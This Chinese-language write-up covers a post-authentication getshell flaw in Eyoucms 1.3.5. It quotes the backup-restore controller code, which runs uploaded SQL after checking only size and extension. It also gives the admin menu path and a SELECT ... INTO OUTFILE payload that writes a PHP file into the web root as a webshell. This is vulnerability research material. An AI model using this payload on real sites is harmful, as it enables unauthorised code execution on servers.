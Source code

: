 Eyoucms 1.3.5 后台getshell
==========================

一、漏洞简介
------------

### 最新版本删除该功能

二、漏洞影响
------------

Eyoucms 1.3.5

三、复现过程
------------

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

     public function restoreUpload()
     {
         $file = request()->file('sqlfile');
         if(empty($file)){
             $this->error('请上传sql文件');
         }
         // 移动到框架应用根目录/data/sqldata/ 目录下
         $path = tpCache('global.web_sqldatapath');
         $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
         $path = trim($path, '/');
         $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
         $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
         if ($info) {
             //上传成功 获取上传文件信息
             $file_path_full = $info->getPathName();
             if (file_exists($file_path_full)) {
                 $sqls = Backup::parseSql($file_path_full);
                 if(Backup::install($sqls)){
                    //array_map("unlink", glob($path));
                     /*清除缓存*/
                     delFile(RUNTIME_PATH);
                     /*--end*/
                     $this->success("执行sql成功", url('Tools/restore'));
                 }else{
                     $this->error('执行sql失败');
                 }
             } else {
                 $this->error('sql文件上传失败');
             }
         } else {
             //上传错误提示错误信息
             $this->error($file->getError());
         }
     }

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

![](resource/Eyoucms1.3.5后台getshell/media/rId27.png)

上传sql文件内容为（需要知道网站绝对路径）

     select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php';

上传成功后在网站根目录生成webshell。

![](resource/Eyoucms1.3.5后台getshell/media/rId28.png)
